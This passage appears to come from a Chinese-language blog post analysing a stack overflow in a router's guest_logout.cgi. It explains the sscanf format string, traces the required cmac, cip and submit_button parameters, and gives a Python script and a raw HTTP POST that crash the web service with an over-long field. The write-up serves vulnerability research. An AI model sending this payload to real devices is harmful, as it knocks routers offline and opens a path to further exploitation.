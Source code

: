 看起来sscanf真的是栈溢出，这里解释一下这个类似正则的东西：`%[^;];%*[^=]=%[^\n]`，这里% 表示选择，%* 表示过滤，中括号括起来的是类似正则的字符集，意思就是：

1. `%[^;]`：分号前的所有字符都要
2. `;%*[^=]`：分号后，等号前的字符都不要
3. `=%[^\n]`：等号后，换行符前的所有字符都要

举个例子就是，如果输入是`aaa;bbb=ccc`，那么v29是`aaa`,v28是`ccc`。scanf也是支持这个东西的，可以自己测试一下。另外发现给v5赋值这句的字符串没有识别出来：

```c
v5 = (const char *)get_cgi((char *)&unk_480000 + 6576);
```

计算一下地址是：`0x480000 + 0x19B0 == 0x004819B0`，看一下这个地址的内容

```c
.rodata:004819B0 aCmac:          .ascii "cmac"<0>     
```

故分析程序路径要到达这个sscanf得有三个参数且满足对应的要求：

1. cmac：mac地址格式
2. cip：ip地址格式
3. submit_button: 包含status_guestnet.asp

那这个参数到底是GET发过去还是POST发过去呢？除了硬怼静态分析这个程序，还可以直接发包测试或者打断点调试。因为这里可能触发漏洞，所以最优的选择就是直接发包测试，如果程序崩了，则证明GET还是POST路径选对了，而且真的存在漏洞。不过就算程序看起来没崩，也不要灰心，因为这里要确定是否有Web程序的守护进程存在，如果存在守护进程则可能看不到打崩的效果了。

### 发包测试

测试可以使用requests或者burp进行发包，发现用GET打完没事，但是用POST打完Web就无法访问了：

```python
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}
#requests.get(url, data=payload, verify=False, timeout=1)
requests.post(url, data=payload, verify=False, timeout=1)
```

burp的HTTP正文：

```python
POST /guest_logout.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 174

cmac=12:af:aa:bb:cc:dd&cip=192.168.1.100&submit_button=status_guestnet.aspaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
